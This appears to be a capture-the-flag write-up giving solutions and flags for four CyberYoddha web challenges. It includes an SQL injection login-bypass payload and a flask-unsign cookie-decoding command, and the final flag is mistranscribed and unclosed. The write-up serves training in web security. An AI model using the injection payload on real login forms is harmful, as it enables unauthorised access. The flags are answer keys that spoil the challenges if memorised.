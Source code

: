 # CyberYoddha CTF : Web Exploitation

## Look Closely : 50p
```
URL : https://inspect.cyberyoddha.team/

[WalkThrought]
1. Read PageSource 

CYCTF{1nSp3t_eL3M3nt?}
```
## Disallow : 100p
```
URL : https://crawlies.cyberyoddha.team/

[WalkThrought!]
1. Open robots.txt Page
2. Open /n0r0b0tsh3r3/flag.html

CYCTF{d33r0b0t$_r_sUp3r10r}
```

## Data Stores : 175p
```
URL :  https://cyberyoddha.baycyber.net:33002/

[WalkThrought!]
Username : admin' or '1' ='1 #
password : #

CYCTF{1_l0v3_$q1i}
```

## Something Sw33t : 200p
```
URL : https://cyberyoddha.baycyber.net:33001

[flask-unsign]
https://book.hacktricks.xyz/pentesting/pentesting-web/flask#cookies

[Ciphey]
https://github.com/Ciphey/Ciphey


[WalkThrought!]
1. Cookie --> don't look here --> value : {copy}
2. flask-unsign --decode --cookie "{copy}"
3. ciphey -t "Q1lDVEZ7MGtfMV9zZWVfeW91X21heWJlX3lvdV9hcmVfc21hcnR9"

CYCTF{Ok I see you maybe you are smart
```